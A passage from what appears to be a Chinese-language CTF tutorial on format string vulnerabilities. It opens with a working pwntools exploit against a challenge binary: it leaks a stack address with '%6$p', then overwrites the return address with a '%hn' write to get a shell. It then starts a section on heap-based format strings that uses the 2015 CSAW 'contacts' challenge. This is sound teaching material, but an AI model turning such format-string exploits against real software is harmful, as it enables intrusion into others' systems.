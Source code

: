 #### 利用程序
```python
from pwn import *
context.log_level="debug"
context.arch="amd64"

sh=process("./pwnme_k0")
binary=ELF("pwnme_k0")
#gdb.attach(sh)

sh.recv()
sh.writeline("1"*8)
sh.recv()
sh.writeline("%6$p")
sh.recv()
sh.writeline("1")
sh.recvuntil("0x")
ret_addr = int(sh.recvline().strip(),16) - 0x38
success("ret_addr:"+hex(ret_addr))


sh.recv()
sh.writeline("2")
sh.recv()
sh.sendline(p64(ret_addr))
sh.recv()
#sh.writeline("%2214d%8$hn")
#0x4008aa-0x4008a6
sh.writeline("%2218d%8$hn")

sh.recv()
sh.writeline("1")
sh.recv()
sh.interactive()
```

## 堆上的格式化字符串漏洞

### 原理

所谓堆上的格式化字符串指的是格式化字符串本身存储在堆上，这个主要增加了我们获取对应偏移的难度，而一般来说，该格式化字符串都是很有可能被复制到栈上的。

### 例子

这里我们以 2015 年 CSAW 中的 [contacts](https://github.com/ctf-wiki/ctf-challenges/tree/master/pwn/linux/user-mode/fmtstr/2015-CSAW-contacts) 为例进行介绍。

#### 确定保护

```shell
➜  2015-CSAW-contacts git:(master) ✗ checksec contacts
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

